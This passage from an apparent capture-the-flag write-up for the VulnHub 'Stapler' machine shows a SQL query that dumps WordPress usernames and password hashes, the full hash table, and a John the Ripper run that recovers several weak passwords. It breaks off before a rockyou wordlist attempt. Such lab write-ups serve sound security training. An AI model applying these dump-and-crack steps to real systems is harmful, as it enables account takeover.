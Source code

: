 At this point I have value extraction, with access to the database there are many t


lets get the usernames for the WP login:

``` msql
use wordpress;
select user_login,user_pass from wp_users;
```
yeilds: 

```
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| John       | $P$B7889EMq/erHIuZapMB8GEizebcIy9. |
| Elly       | $P$BlumbJRRBit7y50Y17.UPJ/xEgv4my0 |
| Peter      | $P$BTzoYuAFiBA5ixX2njL0XcLzu67sGD0 |
| barry      | $P$BIp1ND3G70AnRAkRY41vpVypsTfZhk0 |
| heather    | $P$Bwd0VpK8hX4aN.rZ14WDdhEIGeJgf10 |
| garry      | $P$BzjfKAHd6N4cHKiugLX.4aLes8PxnZ1 |
| harry      | $P$BqV.SQ6OtKhVV7k7h1wqESkMh41buR0 |
| scott      | $P$BFmSPiDX1fChKRsytp1yp8Jo7RdHeI1 |
| kathy      | $P$BZlxAMnC6ON.PYaurLGrhfBi6TjtcA0 |
| tim        | $P$BXDR7dLIJczwfuExJdpQqRsNf.9ueN0 |
| ZOE        | $P$B.gMMKRP11QOdT5m1s9mstAUEDjagu1 |
| Dave       | $P$Bl7/V9Lqvu37jJT.6t4KWmY.v907Hy. |
| Simon      | $P$BLxdiNNRP008kOQ.jE44CjSK/7tEcz0 |
| Abby       | $P$ByZg5mTBpKiLZ5KxhhRe/uqR.48ofs. |
| Vicki      | $P$B85lqQ1Wwl2SqcPOuKDvxaSwodTY131 |
| Pam        | $P$BuLagypsIJdEuzMkf20XyS5bRm00dQ0 |
+------------+------------------------------------+
```

Lets condense these down to [wp_users.txt](/assets/vulnhub_stuff/stapler/wp_users.txt) and try to crack the passwords with john the ripper.


``` bash
john wp_users.txt
```

we get some basic passwords from the default configuration:

```
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
ylle             (Elly)
monkey           (harry)
football         (garry)
cookie           (scott)
# then in ASCII mode: 
TOM              (Simon)
```

Brute force cracking based on ASCII string matches will take an age with this system, lets stop here and use the rockyou dictionary:

